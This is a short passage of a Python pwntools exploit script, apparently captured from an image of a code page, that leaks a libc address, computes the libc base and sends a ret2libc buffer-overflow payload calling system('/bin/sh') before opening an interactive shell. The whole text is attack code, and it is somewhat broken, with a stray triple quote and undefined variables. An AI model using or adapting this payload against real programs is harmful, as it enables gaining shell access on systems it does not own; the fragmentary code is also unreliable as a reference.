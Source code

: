 ```python
woot = p.recv(4)
fflush = u32(woot)
print("FFLUSH : ", hex(fflush))
'''

libc.address = printf - libc.sym.printf
log.info('libc.address: ' + hex(libc.address))

payload2  = offset * b'A'
payload2 += p32(libc.sym.system)
payload2 += 4 * b'B'
payload2 += p32(libc.search(b'/bin/sh').__next__())

p.sendlineafter(b"? ?: ", payload2)
p.interactive()
```
